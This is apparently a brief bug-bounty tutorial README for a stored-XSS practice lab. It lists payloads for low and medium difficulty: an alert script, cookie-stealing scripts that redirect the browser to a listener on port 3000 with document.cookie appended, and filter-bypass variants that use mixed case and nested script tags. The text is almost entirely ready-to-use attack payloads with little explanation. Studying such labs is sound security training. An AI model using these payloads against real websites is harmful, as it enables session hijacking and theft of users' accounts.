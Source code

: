 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### clear send to burp suite repeater

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
### medium
### change input size
```
<ScRipT>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>alert(document.cookie)</script>
```
